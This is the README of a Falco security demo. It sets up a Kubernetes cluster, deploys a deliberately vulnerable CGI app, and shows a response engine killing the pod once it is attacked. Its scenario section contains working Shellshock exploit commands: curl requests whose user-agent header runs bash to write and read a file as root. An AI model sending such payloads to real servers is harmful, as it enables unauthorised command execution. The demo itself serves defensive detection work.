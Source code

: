 # falco-demo

## Setup

You should create a cluster, either with:
- A VM and Minikube
- GKE

### VM + Minikube

Spawn a VM with `vagrant up`

In the vm, start a minikube cluster:

```sh
$ sudo minikube start --vm-driver none
```

### GKE

```sh
$ gcloud container clusters create cluster-1 --zone europe-north1-a --num-nodes 1
```

Deploy the response engine:

```sh
$ kubectl apply -f /vagrant/response-engine/k8s/
```

Deploy falco:

```sh
$ cd /vagrant
$ ./deploy-falco.sh minikube
# or
$ ./deploy-falco.sh gke
```


## Full scenario

Create the cluster:

```sh
minikube start --driver virtualbox
```

In another tmux pane, launch a kubectl watch command to check on Pod statuses:

```sh
watch kubectl get pods
```

Deploy the vulnerable app:

```sh
kubectl apply -f ./vuln/vuln.yaml
```

Exploit the vulnerability:

```sh
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo pwned | sudo tee /pwned'" http://$(minikube ip):8080/cgi-bin/stats
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /pwned'" http://$(minikube ip):8080/cgi-bin/stats
```

Remove the exploited pod:

```sh
kubectl delete pods vuln-xxxx
```

Deploy falco & wait for it to be ready:

```sh
./deploy-falco.sh
```


Try to exploit the vulnerability again:

```sh
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo pwned | sudo tee /pwned'" http://$(minikube ip):8080/cgi-bin/stats
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /pwned'" http://$(minikube ip):8080/cgi-bin/stats
```

Watch the Pod being killed...

